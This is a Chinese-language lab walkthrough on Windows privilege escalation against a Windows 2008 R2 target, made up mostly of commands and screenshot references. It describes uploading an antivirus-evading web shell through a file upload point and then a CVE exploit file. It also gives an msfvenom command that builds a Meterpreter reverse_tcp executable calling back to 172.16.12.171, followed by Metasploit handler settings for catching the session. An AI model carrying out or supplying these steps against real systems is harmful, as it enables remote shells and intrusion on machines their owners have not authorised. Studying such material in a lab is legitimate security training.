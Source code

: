 # Windows提权

例：Windows2008r2

配置vpn（如果不行可以还原快照，选择对应的vpn，输入账号密码）

![image-20210824205251309](Windows提权\image-20210824205251309.png)

kali中安装蚁剑（拖入linux版，连个文件解压，初始化，点位置选第二个文件夹，然后就可以运行了）

在kali中打开浏览器找到上传点，上传as免杀马，蚁剑链接![image-20210824205205278](Windows提权\image-20210824205205278.png)

上传cve文件![image-20210824205133060](Windows提权\image-20210824205133060.png)

现在msf中生成可以反弹的shell打开终端

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=5678 -f exe -o msf24.exe

![image-20210824210104475](Windows提权\image-20210824210104475.png)

![image-20210824210434053](Windows提权\image-20210824210434053.png)

退到主目录，右键打开终端运行 dir查看，whoami查看当前权限为web

![image-20210824210556320](Windows提权\image-20210824210556320.png)

打开监听端口，进入msf

use exploit/multi/handler

![image-20210824210906728](Windows提权\image-20210824210906728.png)

options查看配置

![image-20210824211103844](Windows提权\image-20210824211103844.png)

设置payload与之前上传的保持一致

设置

lhost  0.0.0.0 为全端口监听，也可以设置成自己的ip

 lport  刚才设置的端口

![image-20210824211415006](Windows提权\image-20210824211415006.png)

exploit  运行监听模块 

![image-20210824211601987](Windows提权\image-20210824211601987.png)

会话反弹回来了

![image-20210824211850910](Windows提权\image-20210824211850910.png)

sessions -i  查看会话

sessions 1  使用

![image-20210824212530201](Windows提权\image-20210824212530201.png)



![image-20210824212919070](Windows提权\image-20210824212919070.png)

![image-20210824213252858](Windows提权\image-20210824213252858.png)

![image-20210824213616273](Windows提权\image-20210824213616273.png)

![image-20210824213939019](Windows提权\image-20210824213939019.png)



















set payload windows/meterpreter/reverse_tcp
set lhost 172.16.12.171
set lport 4444

set exitonsession fasle

